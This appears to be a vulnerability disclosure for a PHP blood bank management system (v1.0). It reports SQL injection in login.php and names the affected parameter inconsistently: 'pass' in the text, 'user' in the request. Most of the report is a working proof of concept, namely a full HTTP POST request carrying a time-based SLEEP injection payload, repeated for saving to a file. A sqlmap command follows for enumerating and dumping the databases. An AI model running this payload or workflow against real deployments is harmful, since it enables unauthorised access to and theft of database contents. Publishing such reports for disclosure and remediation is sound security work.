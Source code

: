 # blood-bank-system-in-php-with-source-code  via to sql injection

****

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites:**

https://code-projects.org/

# AFFECTED  VERSION(S)

## Vulnerable File

login.php

## VERSION(S)

-  v1.0

## Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

# PROBLEM TYPE

## Vulnerability Type

- sql injection

## Root Cause

The vulnerability file is in the root directory of login.php

You can see that the $pass=$_POST['pass']，and  concatenate $pass to the SQL statement. cause a sql injection vulnerability.

![image-20240826115151682](https://github.com/user-attachments/assets/497c0cfa-5d55-437f-8051-d038df4d97a5)

## Impact

 SQL injection can obtain database information and obtain server permissions.

## **Description of the vulnerability**

**blood-bank-system-in-php**  Index. php has a pass parameter injection vulnerability,it can get the infomation of  databases.

## **Vulnerability recurrence**

We need to set up this **blood-bank-system-in-php** website locally

**POC**

This POC will achieve the effect of a delayed attack

```
POST /login.php HTTP/1.1
Host: bloodbankmgmtsystem
Content-Length: 103
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://bloodbankmgmtsystem
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bloodbankmgmtsystem/login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=o71nf37k47i55p6jj4v2ukit3i
Connection: close

tab=on&user=admin' AND (SELECT 4621 FROM (SELECT(SLEEP(4)))mhYE) AND 'hMbH'='hMbH&pass=admin&sub=Log+In
```



**Result**

We  use sqlmap.py to scan it.

Further exploitation: sqlmap directive
Save the packet to a 1.txt file first

```
POST /login.php HTTP/1.1
Host: bloodbankmgmtsystem
Content-Length: 103
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://bloodbankmgmtsystem
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bloodbankmgmtsystem/login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=o71nf37k47i55p6jj4v2ukit3i
Connection: close

tab=on&user=admin' AND (SELECT 4621 FROM (SELECT(SLEEP(4)))mhYE) AND 'hMbH'='hMbH&pass=admin&sub=Log+In
```

Execute the sqlmap statement

```
python sqlmap.py -r "C:\1.txt" --dbs
```

You can view the database name and view all the information in the database.

![image-20240826115219916](https://github.com/user-attachments/assets/586be93c-69b8-42c1-b327-6c0bb66e78ab)